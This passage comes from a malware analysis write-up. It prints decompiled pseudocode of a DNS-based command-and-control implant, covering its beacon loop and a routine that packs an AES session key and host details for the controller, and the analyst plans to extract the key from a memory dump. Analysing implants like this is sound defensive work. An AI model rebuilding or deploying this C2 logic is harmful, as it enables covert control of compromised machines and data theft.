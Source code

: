 ```c  
         }  
         if ( (v16 & 2) != 0 )  
         {  
           cncLen = get_encrypted_int(4u);  
           v18 = sendTxtRequest(a1, (char *)bufferFromServer, cncLen);  
         }  
         else if ( (v16 & 4) != 0 )  
         {  
           www6Len = get_encrypted_int(4u);  
           v18 = sendWww6Typ(a1, bufferFromServer, www6Len);  
         }  
         else  
         {  
           cdnLen = get_encrypted_int(4u);  
           v18 = sendCdnRequest(a1, bufferFromServer, cdnLen);  
         }  
         if ( v18 > 0 )  
         {  
           v21 = decryptResponse(bufferFromServer, v18);  
           if ( v21 > 0 )  
             doStuffWithResponse(bufferFromServer, (unsigned int)v21);  
         }  
       }  
```

Unfortunately, this data is encrypted by the AES session key, and since we
only have the last part of the "fingerprint", we'll need to figure out where
the AES key is generated/stored, and extract it from the dump with WinDBG.
Before the "main" loop of DNS queries, some initialization function are quite
interesting:  
```c  
void *__fastcall GrabInfo(GetInfoStruct *Src, unsigned int len)  
{  
 DWORD CurrentProcessId; // ebx  
 DWORD TickCount; // eax  
 char someflags; // bl  
 HANDLE CurrentProcess; // rax  
 DWORD v8; // eax  
 unsigned int v9; // edi  
 __int64 pubKey; // rax  
 block_iterator a1; // [rsp+30h] [rbp-20h] BYREF  
 BYTE rand1[16]; // [rsp+40h] [rbp-10h] BYREF  
 __int16 a2; // [rsp+90h] [rbp+40h] BYREF  
 __int16 OEMCP; // [rsp+98h] [rbp+48h] BYREF

 a2 = GetACP();  
 OEMCP = GetOEMCP();  
 randomGenerator(rand1, 0x10u, 0i64);  
 aesCreateContext((__int64)rand1);  
 CurrentProcessId = GetCurrentProcessId();  
 TickCount = GetTickCount();

 /* some snipped useless stuff */

 /* construct the blob to be sent to the C&C */  
 make_block_iterator(&a1, Src, len);  
 packMem(&a1, rand1, 16);  
 packMem(&a1, &a2, 2);  
 packMem(&a1, &OEMCP, 2);  
 pack_int_bigendian(&a1, sessionRandIdentifier);  
 v8 = GetCurrentProcessId();  
 pack_int_bigendian(&a1, v8);  
 pack_short_bigendian(&a1, 0);  
 pack_char(&a1, someflags);  
```